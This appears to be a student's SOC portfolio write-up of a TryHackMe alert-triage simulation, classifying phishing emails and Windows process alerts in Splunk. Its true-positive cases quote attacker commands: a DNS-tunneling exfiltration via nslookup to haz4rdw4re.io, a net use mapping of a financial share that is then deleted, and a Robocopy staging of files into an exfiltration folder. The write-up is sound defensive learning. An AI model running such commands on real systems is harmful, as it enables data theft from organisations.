# 🛡️ SOC Portfolio: Incident Response Simulation
**Platform:** TryHackMe | **Stack:** Splunk, Sysmon, Windows 10

## 🎯 Executive Summary
This project is supposed to showcases my ability to triage high-volume alert queues and perform deep-dive forensics. As you can read below, I successfully identified a coordinated data exfiltration campaign while maintaining high-fidelity logging by filtering benign system noise. 

Before starting, the alert queue was saturated with low-to-high severity triggers. My first task was to prioritize threats and clear the backlog. Of course, high level llerts go before low-level, but in this presentation they will be mixed so I can show in relatively simple terms the whole process of the incident :)


*Figure 1: Initial alert queue for low importance status before triage.*

*Figure 2: Initial alert queue for high importance status before triage.*

---
 
 

# Case 1: Phishing & Social Engineering
I investigated multiple(6) inbound email threats targeting employee credentials and financial data. Apparently 2 out of 6 were actually dangerous

### The "Hat Empire" Scam
**Verdict:** 🔴 Malicious  
**Escalation:** No (Threat Isolated)  

**Detection:** Low-severity alert for an unusual top-level domain (`.me`).  
**The Lure:** An "Inheritance Alert" requesting banking details immediately.  
**My Findings:** Classified as an organized scam campaign. While the threat was isolated, I recommended targeted social engineering training for the department.  


*Figure 3: Splunk log showing the source metadata for the scam.*

### The "Overdue Payment" Invoice 
**Verdict:** 🔴 Malicious 
**Escalation:** Yes

**Detection:** "Suspicious Attachment found in email". 
**The Lure:** A "Final Notice" regarding an overdue account to create a sense of urgency. 
**The Payload:** A `.zip` file titled `ImportantInvoice-Febrary.zip` sent from an external domain (`hatmakereurope.xyz`). 


*Figure 4: Splunk log showing the source metadata for the scam.*

### Marketing Noise (False Positive)
**Verdict:** 🟢 Benign 
**Escalation:** No

**Analysis:** Triaged a wave of ad-based emails from various corporate domains.  
**Reasoning:** No malicious links or attachments were present. These were identified as standard marketing communications.  
**Action:** Closed as a False Positive to optimize queue efficiency. 

---
 
 

# Case 2: Process & Remote Desktop Analysis
### rdpclip.exe Activity
**Verdict:** 🟢 Benign 
**Escalation:** No 

**Detection:** Monitored `Process Create` events for Remote Desktop-related binaries. 
**Analysis:** I identified `rdpclip.exe` (PID 3587) being launched by `svchost.exe` (PID 3855). 
**Verification:** * **Path:** The binary was executing from the legitimate `C:\Windows\System32\` directory. 
    **Context:** This process is the primary component for the "Copy and Paste" feature between a local and remote computer during an RDP session. 
**Findings:** The process parent and working directory were standard for a Windows environment. No unauthorized clipboard redirection or data exfiltration was observed in the associated DNS queries.

*Figure 5: Splunk log showing rdpclip.exe executing within the standard system context.*

---
 
 

# Case 3: System Framework & Baseline Analysis
In a high-pressure SOC environment, distinguishing between system noise and actual threats is critical to prevent "Alert Fatigue." I investigated several system-level process alerts to establish a baseline of "Known Good" behavior.

### WUDFHost.exe Framework Verification
**Verdict:** 🟢 Benign 
**Escalation:** No 

**Detection:** Triggered a "Suspicious Process" alert due to the complex, long command-line arguments containing multiple GUIDs. 
**Analysis:** I identified `WUDFHost.exe` (User Mode Driver Framework Host) executing with a parent PID of 3817. 
 **Verification:** 
    * **Parent Process:** Verified the parent as `services.exe`, which is the correct and legitimate launcher for this framework. 
    * **File Integrity:** The process was running from the official `C:\Windows\System32\` directory. 
    * **Command Line:** The alphanumeric strings (GUIDs) were confirmed as standard internal identifiers used by Windows to map specific hardware drivers to the host container. 
**Findings:** This process was a legitimate container for hardware drivers. No malicious injections or masquerading were detected. 


*Figure 6: Splunk log detailing the legitimate system framework execution.*


---
 
 

# Case 4: Advanced Exfiltration (DNS Tunneling)
### The nslookup.exe process
**Verdict:** 🔴 True Positive 
**Escalation:** Yes (Critical) 

**Detection:** Triggered by a **High Severity Alert** (ID 1025) for a "Suspicious Parent-Child Relationship". 
**The Anomaly:** `powershell.exe` (PID 3728) was identified spawning multiple `nslookup.exe` sessions in a highly automated fashion. 
**Exfiltration Method:** The attacker utilized encoded Base64 strings within the subdomain of a query to `haz4rdw4re.io` to bypass traditional firewall egress rules. 
**Command Detected:** `nslookup.exe [some encoded string].haz4rdw4re.io`.

*Figure 7: Splunk log detailing the exfiltration folder and dangerous link.*


**Remediation:**
Based on the high frequency and clear intent of the queries, I classified this as a True Positive and escalated for immediate host isolation and full network traffic analysis.

---
 
 

# Case 5: Unauthorized Infrastructure Mapping
Following the phishing-based initial access, I detected an attempt to map internal file servers to the compromised workstation to facilitate large-scale data theft.

### External Storage & Share Mapping
**Verdict:** 🔴 True Positive 
**Escalation:** Yes (Critical) 

**Detection:** Triggered by a `Process Create` event for `net.exe` used with unusual parameters. 
**The Evidence:** * Attacker utilized `powershell.exe` (PID 3728) as a parent process to execute network mapping commands. 
    **Command 1:** `net.exe use Z: \\FILESRV-01\SSF-FinancialRecords` — Successfully mapped a sensitive financial file share to a local drive letter. 
    **Command 2:** `net.exe use Z: /delete` — Attempted to clear tracks by removing the mapped drive after activity. 
**Affected Entities:** Workstation `win-3450`, the `Michael Ascot` user account, and the `SSF-FinancialRecords` network share. 

*Figure 8: Splunk logs capturing the unauthorized mapping and subsequent deletion of the Z: drive.*


**Remediation & Action:**
Classified as a **True Positive**. I recommended immediate isolation of the affected machine from the corporate network to prevent further lateral movement or exfiltration of the identified financial records.

---
 
 

# Case 6: Suspicious Process Terminology
In this phase, I investigated a process that appeared legitimate on the surface but contained suspicious terminology in the command line, requiring further escalation.

### taskhostw.exe "KEYROAMING" Anomaly
**Verdict:** 🔴 True Positive 
**Escalation:** Yes 

**Detection:** Monitored a `Process Create` event for `taskhostw.exe` (PID 3585). 
**The Anomaly:** While the process name, parent (`svchost.exe`), and directory (`C:\Windows\System32`) appeared normal, the command-line argument `KEYROAMING` was identified as highly suspicious and non-standard for this system. 
**Affected Entities:** Workstation machine `win-3451`. 
**Investigation Findings:** I classified this as a **True Positive** because the "KEYROAMING" suffix at the end of the executed process appeared out of place and potentially indicative of unauthorized credential or key manipulation. 


*Figure 9: Splunk log capturing the execution of taskhostw.exe with the suspicious KEYROAMING flag.*


**Remediation & Action:**
Due to the lack of clarity regarding the "KEYROAMING" terminology and its potential security implications I escalated the alert for a deeper forensic analysis of the binary and its impact on the host. (but to be honest you don't really need to be a cybersec expert in order to understand something is not right lol)

---
 
 

# Case 7: Service Host & Windows Store Analysis
To conclude the baseline phase, I investigated common service host triggers to ensure critical Windows update and deployment processes were not being exploited for persistence.

### svchost.exe (wsappx) Service Verification
**Verdict:** 🟢 Benign 
**Escalation:** No 

**Detection:** Triggered a monitoring event for `svchost.exe` running with the `wsappx` parameter. 
**Technical Context:** The `wsappx` service (managed via `AppXSVC` and `ClipSVC`) is responsible for Microsoft Store app deployment and license management. 
**Verification:** 
    * **Integrity Check:** The process was executing from the standard `C:\Windows\system32\` directory. 
    * **Parent Process:** Successfully verified `services.exe` (PID 3700) as the legitimate parent launcher. 
    * **Isolation Security:** The use of the `-p` flag confirmed the service was running in an isolated process, which is a modern Windows security best practice to prevent cross-service interference. 
**Findings:** The activity was consistent with standard background app maintenance. No unauthorized installations or network callbacks were detected during the monitoring period. 

*Figure 10: Splunk log confirming the legitimate execution of the wsappx service with process isolation.*

---
 
 

# Case 8: Data Staging & internal File Theft
This phase documents the transition from gaining access to active internal theft, where the attacker identified and consolidated sensitive financial data for removal.

### Robocopy Data Staging
**Verdict:** 🔴 True Positive 
**Escalation:** Yes (Critical) 

**Detection:** Triggered by a `File Create` event (Event Code 11) associated with a high-volume data move.
**The Evidence:** * Attacker utilized `powershell.exe` (PID 3728) to launch `Robocopy.exe` (PID 8356). 
    * **Command:** `C:\Windows\system32\Robocopy.exe . C:\Users\michael.ascot\downloads\exfiltration /E`.
    The `/E` flag was used to recursively copy all subdirectories, including empty ones, into a hidden staging folder. 
**Stolen Assets:** * `InvestorPresentation2023.pptx`.
    `ClientPortfolioSummary.xlsx`. 
**Affected User:** `michael.ascot` on workstation `win-3450`.


*Figure 11: Splunk logs capturing the recursive copy of financial records into the exfiltration folder.*

**Remediation:**
Classified as a **True Positive**. I recommended immediate isolation of the affected machine from the corporate network and a full audit of all files contained within the unauthorized `/exfiltration/` directory.

---
 
 

# Case 9: System Installer Verification
The final baseline investigation involved triaging process creation events for high-privilege system installers to ensure they were not being leveraged for unauthorized system modifications.

### TrustedInstaller.exe Activity
**Verdict:** 🟢 Benign 
**Escalation:** No 

**Detection:** Monitored a `Process Create` event (Event Code 1) for the Windows Modules Installer. 
**Verification:**
    * **Process Identity:** Identified `TrustedInstaller.exe` (PID 3577) executing from its legitimate system path: `C:\Windows\servicing\TrustedInstaller.exe`. 
    * **Parent Process:** Successfully verified `services.exe` (PID 3506) as the legitimate parent launcher. 
    * **Context:** The process was running within the standard `C:\Windows\system32\` working directory. 
**Findings:** All forensic indicators confirmed this was standard Windows Update or system component maintenance. No suspicious command-line parameters or unauthorized file modifications were detected. 


*Figure 12: Splunk log confirming the legitimate, high-privilege execution of TrustedInstaller.exe.*

---
---
---
 
 

## Simulation Results & Final Metrics
The simulation concluded with a successful prevention of the security breach. My performance metrics reflect a high level of accuracy in threat identification and a disciplined approach to alert triage.

* **True Positive Identification Rate:** 100% — Successfully identified every malicious alert in the scenario.
* **False Positive Identification Rate:** 77% — Correctly filtered the majority of benign system noise to maintain high-fidelity monitoring.
* **Efficiency:** Achieved a Mean Time to Resolve (MTTR) of 8 minutes across 36 total alerts.



 


---

